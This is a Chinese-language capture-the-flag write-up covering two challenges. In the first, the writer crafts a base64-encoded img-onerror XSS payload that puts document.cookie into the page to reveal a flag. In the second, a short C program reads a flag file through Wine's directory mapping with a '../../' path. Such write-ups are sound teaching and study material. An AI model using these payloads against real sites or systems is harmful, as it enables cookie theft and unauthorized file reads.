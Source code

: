 # 微积分计算小练习
~~有人真的去做了那五道微积分我不说是谁~~
经过尝试发现那个URL是`http://202.38.93.111:10056/share?result=MjA6MQ%3D%3D`这样的模式，result后面改变，查看源码发现
```javascript
const colon = b64decode.indexOf(":");
const score = b64decode.substring(0, colon);
const username = b64decode.substring(colon + 1);

document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```
意思是result后面是一个base64编码的字符串。
而判题脚本中
```python
driver.execute_script(f'document.cookie="flag={FLAG}"')
```
可以看出flag藏在cookie中，因此只需要获得cookie
```python
try:
    greeting = driver.execute_script(f"return document.querySelector('#greeting').textContent")
    score = driver.execute_script(f"return document.querySelector('#score').textContent")
except selenium.common.exceptions.JavascriptException:
    print('JavaScript Error: Did you give me correct URL?')
    exit(1)
```
从这段代码中则发现判题是用selenium打开了URL对应的网页并且直接获得了网页解析result参数的值。因此想到XSS。但是innerHTML拒绝执行`<script></scrpit>`中的javascript，所以改用`<img src=x onerror="">`的方式执行。用base64处理
```
100:<img src=x onerror="javascript:document.querySelector('#greeting').innerHTML = document.cookie;">
```
放入url的result中即可看到flag出现在用户名处。

# 杯窗鹅影
## flag1
直接通过wine的目录映射读取根目录
```C
FILE *fp=fopen("../../flag1","r");
char ch;
ch=fgetc(fp);
while(!feof(fp)){
	putchar(ch);
	ch=fgetc(fp);
}
fclose(fp);
```
## flag2
**寄！**
